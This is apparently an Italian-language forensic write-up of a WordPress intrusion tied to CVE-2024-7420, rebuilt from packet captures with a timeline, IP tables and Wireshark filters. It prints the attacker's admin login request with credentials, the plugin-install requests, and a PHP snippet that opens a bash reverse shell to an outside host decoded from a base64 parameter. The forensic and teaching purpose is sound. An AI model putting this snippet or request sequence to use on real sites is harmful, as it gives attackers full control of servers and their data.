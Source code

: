 
# CVE-2024-7420 (58.16.78.90 -> 192.168.100.101)

Flussi TCP confermano un’azione potenzialmente malevola da parte di un attore che dispone di privilegi admin, che ha installato un plugin ad  code-snippets. Sono state fatte ulteriori analisi per veriicahe che se questo fosse un tentativo di sfruttare  volnuberati note al plugin code-snippets.

**When**

| **Evento**                     | **Timestamp** | **TCP Stream** | **Dettagli**                                   |
|--------------------------------|---------------|----------------|-----------------------------------------------|
| Login admin riuscito           | 22:45:15.45   | 458            | POST a /wp-login.php con admin:byebye         |
| Installazione plugin           | 22:45:15.80   | 461            | Navigazione e installazione code-snippets     |
| Upload dello snippet malevolo  | 22:46:21.03   | 621            | POST con file fancy_rnd.json                  |
| Attivazione della shell remota | 22:47:09.60   | 730            | GET con rand=NTguMTYuNzguOTAvNDQz             |

**Who/Where**

| **Ruolo**         | **Indirizzo IP**       | **Porta**       |
|--------------------|------------------------|-----------------|
| Attaccante         | 58.16.78.90           | 51144, 51176, 54012, 44250 |
| Server compromesso | 192.168.100.101       | 80 (srv-www)    |
| Porta reverse shell |  58.16.78.90         | 443             |

**What**

1. l'attaccante riesci a superare il login di WordPress con privilegi admin
 utilizzando credenziali rubate dall attacco precedente

```sh
POST /wp-login.php
...
log=admin&pwd=byebye
```

2. code-snippets

- Navigazione nella sezione plugin
- Ricerca di un plugin con parametro s=code
- Installazione del plugin code-snippets 

```sh
GET /wp-admin/plugins.php
GET /wp-admin/plugin-install.php
POST /wp-admin/admin-ajax.php HTTP/1.1
slug=code-snippets&action=install-plugin&_ajax_nonce=aad5c50a4b&_fs_nonce=&username=&password=&connection_type=&public_key=&private_key=
```

3.  L’attaccante ha caricatouno snippet PHP che implementa una reverse shell su richiesta quando il sito viene visitato con richieste GET e parametro 'rand'. 

```php
add_action('init', function() {
    if ( isset($_GET['rand']) ) {
        exec('/bin/bash -c "bash -i >& /dev/tcp/' . base64_decode($_GET['rand']) . ' 0>&1"');
    }
});
```

4. Attivazione della reverse shell da parte dell'attaccante

```sh
GET /?rand=NTguMTYuNzguOTAvNDQz
```

 - echo "NTguMTYuNzguOTAvNDQz" | base64 -d 
 - 58.16.78.90/443
 - il server wordpress ha stabilito una connessione uscente verso 58.16.78.90:443, fornendo accesso completo a shell bash interattiva.


**How**
L'attaccante ha sfruttato le credenziali amminsitrative cambiate nell attacco precednere
L'attaccante ha sfruttato la vulberabilità relativa al plugin code-snippets [CVE-2024-7420](https://nvd.nist.gov/vuln/detail/CVE-2024-7420)

**Why**
Pieno controllo del server , esfiltraizone dati della compagnia.

**Filtri Wireshark utilizzati**

```sh
http.request.method == "POST" && http contains "login"
http.request.method == "POST" && http.request.uri contains "code-snippets"
http.request.uri contains "rand="
```